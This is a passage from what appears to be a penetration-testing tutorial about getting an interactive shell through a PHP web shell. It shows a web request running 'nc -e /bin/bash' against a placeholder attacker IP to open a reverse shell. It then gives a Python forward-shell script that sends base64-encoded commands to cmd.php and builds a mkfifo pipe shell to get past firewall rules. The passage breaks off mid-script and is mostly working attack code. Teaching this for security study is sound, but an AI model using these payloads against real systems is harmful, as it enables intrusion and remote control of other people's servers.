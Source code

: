 ```url
http://localhost/cmd.php?cmd=nc -e /bin/bash {ATTACKER_IP} {ATTACKER_PORT}
```

We will realize that because of the rules we have defined before we cannot establish the connection. In this case we must use the mkfifo command to establish the communication through this script "tty_over_http.py":

```python
#!/usr/bin/python3

import requests, time, threading, pdb, signal, sys
from base64 import b64encode
from random import randrange

class AllTheReads(object):
	def __init__(self, interval=1):
		self.interval = interval
		thread = threading.Thread(target=self.run, args=())
		thread.daemon = True
		thread.start()

	def run(self):
		readoutput = """/bin/cat %s""" % (stdout)
		clearoutput = """echo '' > %s""" % (stdout)
		while True:
			output = RunCmd(readoutput)
			if output:
				RunCmd(clearoutput)
				print(output)
			time.sleep(self.interval)

def RunCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
        	'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
		}
	result = (requests.get('http://127.0.0.1/cmd.php', params=payload, timeout=5).text).strip()
	return result

def WriteCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
		'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
	}
	result = (requests.get('http://127.0.0.1/cmd.php', params=payload, timeout=5).text).strip()
	return result

def ReadCmd():
        GetOutput = """/bin/cat %s""" % (stdout)
        output = RunCmd(GetOutput)
        return output

def SetupShell():
	NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
	try:
		RunCmd(NamedPipes)
	except:
		None
	return None

global stdin, stdout
session = randrange(1000, 9999)
```